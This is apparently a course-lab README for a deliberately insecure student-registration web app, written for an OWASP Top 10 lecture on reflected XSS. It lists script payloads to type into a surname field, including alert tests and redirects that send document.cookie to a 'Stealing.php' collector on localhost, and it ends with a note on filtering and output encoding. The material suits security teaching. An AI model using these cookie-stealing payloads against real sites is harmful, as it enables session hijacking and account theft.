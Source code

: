 InsecureWebApplicationProject ->V 1.0.0

Insert new student

-------input these messages to the textbox (soyadı) ----------

    <script>alert(document.cookie);</script>

    //<script>alert('xy');</script>

    //<script>window.location="http://localhost/SecureSoftwareDevelopment/Lecture7OWASPTop10/1XSS/2ReflectedXSS/Stealing.php?cookie="+document.cookie; </script>
    //<script> window.location.href="./Stealing.php?cookie=\'+document.cookie </script>
       //<script>window.location.href=\"./Stealing.php?cookie=\"+document.cookie; </script>
       
       <script> window.location=\'http://localhost/?cookie=\'+document.cookie </script>
       <script> window.location=\'http://localhost/?cookie=\'+document.cookie </script>
     
window.location.href = "./Stealing.php?cookie="+document.cookie;
apply filtering and output encoding in set member functions (code reuse)
